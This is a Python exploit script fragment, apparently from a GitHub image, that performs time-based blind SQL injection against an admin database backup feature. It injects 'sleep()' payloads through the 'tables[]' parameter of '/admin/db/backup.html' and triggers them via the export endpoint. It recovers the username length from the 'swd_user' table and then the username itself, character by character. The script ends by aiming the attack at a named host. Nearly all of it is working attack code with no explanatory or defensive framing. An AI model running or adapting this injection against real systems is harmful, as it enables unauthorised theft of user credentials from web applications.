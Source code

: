 ```python
		pass
	try:
		r = requests.get(url=url_delete_backup,headers=headers)
	except Exception as e:
		pass

def sql(url):
	url_backup = "{}/admin/db/backup.html".format(url)
	url_export = "{}/admin/db/export.html".format(url)

	data = {
		"id":"0",
		"start":"0"
	}
	#获取用户长度
	start = True
	i=0
	length = 0
	while start:
		data1 = {
			"tables[]":"swd_user`;select if((select length(username) from swd_user limit 0,1)={},sleep(2),1);#".format(i),
			"vol_size":"100",
			"backup_name":"20220425_1"
		}
		r = requests.post(url=url_backup,data=data1,headers=headers,timeout=2,proxies={"http":"http://127.0.0.1:8080"}).json()
		if "成功" in r['info']:
			try:
				r = requests.post(url=url_export,data=data,headers=headers,timeout=2,proxies={"http":"http://127.0.0.1:8080"})
			except Exception as e:
				length = i
				print(u"[+]用户名密码长度为:",i)
				start = False
			i+=1
			delete(url)
	result = ''
	for i in range(0,length):
		for j in range(35,128):
			data1 = {
				"tables[]":"swd_user`;select if(ascii(substr((select username from swd_user limit 0,1),{},1))={},sleep(3),1);#".format(i,j),
				"vol_size":"100",
				"backup_name":"20220425_1"
			}
			r = requests.post(url=url_backup,data=data1,headers=headers,timeout=2,proxies={"http":"http://127.0.0.1:8080"}).json()
			if "成功" in r['info']:
				try:
					r = requests.post(url=url_export,data=data,headers=headers,timeout=2)
				except Exception as e:
					result +=chr(j)
					print(u"[+]用户名密码为为:",result)
					i+=1
					delete(url)
					break
				j+=1
				delete(url)
			

sql("http://local.rapoo.top")
```
